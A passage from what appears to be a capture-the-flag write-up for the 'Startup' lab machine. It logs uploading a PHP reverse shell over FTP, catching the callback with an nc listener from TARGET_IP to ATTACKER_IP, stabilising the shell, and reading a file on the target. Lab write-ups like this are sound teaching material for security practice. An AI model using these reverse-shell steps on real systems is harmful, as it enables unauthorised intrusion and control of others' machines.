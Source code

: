 Success! Well, all that's left now is to upload a php reverse shell and gain initial access...

## Gaining Access

Uploading our php reverse shell program through the ftp service and accessing it with the browser:
```shell-session
ftp> put payload.php 
local: payload.php remote: payload.php
229 Entering Extended Passive Mode (|||48080|)
150 Ok to send data.
100% |*************************************************************************************************************************************************|  2586       25.16 MiB/s    00:00 ETA
226 Transfer complete.
2586 bytes sent in 00:00 (9.45 KiB/s)

# Now try and open the payload file on a browser while listening for connections on port 4444 (or whatever you've chosen)

## On another session:
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [TARGET_IP] 43280
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:01:39 up 39 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1211): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ whoami
whoami
www-data
```

And we're in! Let's stabilize the shell a bit and move onto checking out what the machine's got in store for us:
```shell-session
www-data@startup:/home$ python3 -c "import pty; pty.spawn('/bin/bash')"
<CTRL+Z>
$ stty raw -echo && fg
$ export TERM=xterm-256-color
www-data@startup:/$ ls
bin   home            lib         mnt         root  srv  vagrant
boot  incidents       lib64       opt         run   sys  var
dev   initrd.img      lost+found  proc        sbin  tmp  vmlinuz
etc   initrd.img.old  media       recipe.txt  snap  usr  vmlinuz.old

www-data@startup:/$ cat recipe.txt 
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

